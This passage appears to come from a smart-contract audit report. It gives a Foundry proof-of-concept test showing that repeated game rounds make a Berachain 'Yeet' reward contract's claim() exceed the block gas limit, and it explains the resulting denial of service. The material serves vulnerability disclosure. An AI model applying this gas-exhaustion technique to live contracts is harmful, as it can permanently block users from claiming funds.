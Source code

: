 ```solidity
            gameSettings,
            address(0x0e),
            address(0x0c),
            address(0x0),
            address(entropy),
            address(0x0001)
        );
        yeet.setYeetardsNFTsAddress(address(nft));
        reward.setYeetContract(address(yeet));
    }

    function test_GetClaimableAmountDoS() public {
        address claimer = makeAddr("claimer");
        vm.deal(claimer, 1000_000 ether);    
        vm.startPrank(claimer);

        uint256 ROUND_LIMIT  = 600;
        bytes32 randomNumber = 0x3b67d060cb9b8abcf5d29e15600b152af66a881e8867446e798f5752845be90d;

        for(uint256 i = 0; i < ROUND_LIMIT; i++) {
            uint128 fee = yeet.yeetback().getEntropyFee();
            yeet.yeet{value: 1 ether}();
            skip(2 hours + 1 days);
            yeet.restart{value: fee}(bytes32(uint256(randomNumber) + i));
        }

        // Assuming enough tokens are minted
        token.mint(address(reward), reward.getClaimableAmount(claimer));
        // It will consume an excessive amount of gas!
        reward.claim();
        vm.stopPrank();
    }

    receive() external payable {}
}

```

Run the Foundry test script:
```
forge test --mt test_GetClaimableAmountDoS --gas-report
```

A detailed snapshot of the test results is provided in the attachment.

Based on Berachain’s estimated block gas limit (for example, 5,000,000 — though this value can vary), setting `ROUND_LIMIT` to 600 can easily exceed the available gas, potentially causing subsequent `claim` calls to consistently fail.